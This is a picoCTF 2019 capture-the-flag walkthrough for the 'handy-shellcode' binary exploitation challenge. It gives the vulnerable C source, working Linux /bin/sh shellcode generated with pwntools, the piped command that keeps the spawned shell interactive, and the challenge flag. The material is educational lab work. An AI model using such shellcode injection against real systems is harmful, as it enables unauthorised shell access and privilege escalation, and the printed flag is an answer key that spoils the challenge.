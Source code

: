 # handy-shellcode
50 points

### Description
*"This program executes any shellcode that you give it. Can you spawn a shell and use that to read the flag.txt? You can find the program in /problems/handy-shellcode_6_f0b84e12a8162d64291fd16755d233eb on the shell server. Source."*

### Solution
Here's a look at the source code provided:
```C
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

#define BUFSIZE 148
#define FLAGSIZE 128

void vuln(char *buf){
  gets(buf);
  puts(buf);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  // Set the gid to the effective gid
  // this prevents /bin/sh from dropping the privileges
  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  char buf[BUFSIZE];

  puts("Enter your shellcode:");
  vuln(buf);

  puts("Thanks! Executing now...");
  
  ((void (*)())buf)();


  puts("Finishing Executing Shellcode. Exiting now...");
  
  return 0;
}

```

This one is pretty simple actually. We see that the program prompts the user for input, then creates a function pointer for that input and tries to execute it. If we give the program input that isn't executable, the program will run into a segmentation fault.

If we take a look at the directory that this program is in on the server, we see the flag file, but we don't have permission to read it.
```
$ cd /problems/handy-shellcode_6_f0b84e12a8162d64291fd16755d233eb
$ ls
flag.txt  vuln  vuln.c
$ cat flag.txt 
cat: flag.txt: Permission denied
```
However, if we take a look at the permissions for the files in this directory, we can see that `flag.txt` is in the same permissions group as `vuln`. 
```
$ ls -l
total 656
-r--r----- 1 hacksports handy-shellcode_6     39 Sep 28  2019 flag.txt
-rwxr-sr-x 1 hacksports handy-shellcode_6 661832 Sep 28  2019 vuln
-rw-rw-r-- 1 hacksports hacksports           624 Sep 28  2019 vuln.c
```

If you aren't familiar with how file permissions work in UNIX filesystems, you can learn more about it [here](https://www.tutorialspoint.com/unix/unix-file-permission.htm).

So, we should take a hint from the problem. It asks if we can spawn a shell through the program to read `flag.txt`. Well, this is exactly what we are going to do.

First, we need to talk about **shellcode**. If you aren't familiar with the concept, a piece of shellcode is typically a malicious portion of code that a hacker wants to use as the [payload](https://en.wikipedia.org/wiki/Payload_(computing)) in exploiting a vulnerability.

In simple terms, when a C program is compiled, it is translated into binary machine code that the computer can actually understand. However, there is an intermediary step where the C source code is translated by the compiler into [assembly code](https://en.wikipedia.org/wiki/Assembly_language), which is then translated by an *assembler* into executable machine code.

We can actually write assembly ourselves that can be translated into hexadecimal, which will make it a valid, executable piece of code. This is the process by which shellcode is usually created. You can find a great introduction to shellcode [here](https://www.exploit-db.com/docs/english/13019-shell-code-for-beginners.pdf) if you want to learn more about it.

As hackers, this problem makes our job **very** easy. Usually, we have to find creative ways to execute our payloads, but this program will do it for us! All we have to do is find the right shellcode.

There are a lot of great shellcode databases online, but I think the best is [shell-storm](http://shell-storm.org/shellcode/).

However, if you've checked out any of my other picoCTF walkthroughs, you may have learned that I like to do stuff with python when I can. For this, we're going to use of the most useful python modules available to hackers: [pwntools](http://docs.pwntools.com/en/stable/).

The `pwn.shellcraft` module has a lot of useful code for generating shellcode, and it can be used to generate shellcode for many different operating systems and architectures.
```python
from pwn import shellcraft

print(shellcraft.linux.sh())
```

The code above will print out the actual *assembly* instructions for generating a shell on a linux operating system. Remember, we don't want assembly code, but rather *shellcode*.

We can use `pwn.asm` to convert assembly instructions to machine code:
```python
from pwn import shellcraft, asm

print(asm(shellcraft.linux.sh()))
```

Here's something like what you should've gotten.
<details>
  <summary>Shellcode:</summary>
  b'jhh///sh/bin\x89\xe3h\x01\x01\x01\x01\x814$ri\x01\x011\xc9Qj\x04Y\x01\xe1Q\x89\xe11\xd2j\x0bX\xcd\x80'
</details>

If your output had a lot of random characters, don't worry, that just means python is printing out the actual bytes rather than the hex values. This is just dependent on your python version.

We now want this shellcode to be fed in as the input to `vuln`. If we are in the directory with `vuln` and `flag.txt` on the server, we can execute the python code above in one command using the python `-c` flag. We can then pipe this into `vuln`.
```
$ python -c "from pwn import asm, shellcraft; print(asm(shellcraft.linux.sh()))" | ./vuln
```

However, you'll notice that you can't actually use the shell that spawns, you're immediately brought back to your normal command-line prompt. This is a common issue we run into in situations like this. What's happening is that python gives the input to `vuln`, then python stops executing. This is bad because all of the input to `vuln` is going through python. So, when python stops executing, `vuln` stops trying to get input, even if the shell is spawned.

This is easy to fix. We just need to append another command that executes *after* the python command, but prompts for input. This will give us an input stream to be able to interact will the shell that we spawned.

The best command for this is `cat`, since when it is used with no arguments, it just waits for user input and then repeats it as output.
```
$ (python -c "from pwn import asm, shellcraft; print(asm(shellcraft.linux.sh()))"; cat) | ./vuln
```

While you can't see the prompt, we are now in the shell that we spawned. We can use `id` to see that we now have the same group permissions as `flag.txt`. So, we can finally read it.
```
$ (python -c "from pwn import asm, shellcraft; print(asm(shellcraft.linux.sh()))"; cat) | ./vuln 
Enter your shellcode:
jhh///sh/bin��h�4$ri1�QjY�Q��1�j
                                X̀
Thanks! Executing now...
id
uid=49513(flow2) gid=8875(handy-shellcode_6) groups=8875(handy-shellcode_6),1002(competitors),49514(flow2)
ls
flag.txt  vuln	vuln.c
cat flag.txt
```

And this should get you the flag!

<details>
  <summary>Flag:</summary>
  picoCTF{h4ndY_d4ndY_sh311c0d3_15d47ccd}
</details>

[Next Problem]()

[Return to Binary Exploitation](https://github.com/sdvickers98/picoCTF-2019-Walkthrough/blob/master/binary_exploitation/%230%20-%20Binary%20Exploitation%20Homepage.md)

[Return to Homepage](https://github.com/sdvickers98/picoCTF-2019-Walkthrough)
